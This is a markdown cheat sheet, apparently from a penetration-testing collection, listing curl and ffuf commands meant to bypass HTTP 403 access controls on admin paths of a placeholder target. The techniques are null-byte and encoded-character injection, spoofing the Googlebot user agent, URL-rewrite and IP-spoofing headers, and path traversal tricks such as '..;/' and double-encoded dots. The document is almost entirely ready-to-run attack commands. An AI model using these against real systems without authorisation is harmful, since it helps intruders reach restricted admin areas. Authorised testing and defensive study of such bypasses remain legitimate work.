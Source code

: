 ### Character Injection Techniques

```bash
# Null byte (before modern patches)
curl https://target.com/admin%00.jpg

# Using different delimiters
curl "https://target.com/index.php;param=value"

# Space obfuscation
curl https://target.com/admin%09/
curl https://target.com/admin%20/
curl https://target.com/admin%0d%0a/
```

### User-Agent Manipulation

```bash
# Changing user agents
curl -A "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)" https://target.com/admin/
curl -A "Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X)" https://target.com/admin/

# With FFUF
ffuf -w /path/to/wordlist.txt -u https://target.com/FUZZ -H "User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1)"
```

## 403 Bypass Techniques

### Header Manipulation

```bash
# Add various headers 
curl -H "X-Original-URL: /admin" https://target.com/
curl -H "X-Rewrite-URL: /admin" https://target.com/
curl -H "Content-Length: 0" -X POST https://target.com/admin
curl -H "Referer: https://target.com/admin" https://target.com/admin
curl -H "X-Custom-IP-Authorization: 127.0.0.1" https://target.com/admin
```

### Path Traversal Tricks

```bash
# Using path traversal to bypass restrictions
curl https://target.com/public/..;/admin
curl https://target.com/public/%2e%2e/admin
curl https://target.com/public/%252e%252e/admin

# Adding special characters to URLs
curl https://target.com//admin//
curl https://target.com/./admin/./
curl https://target.com/admin/something/../
```
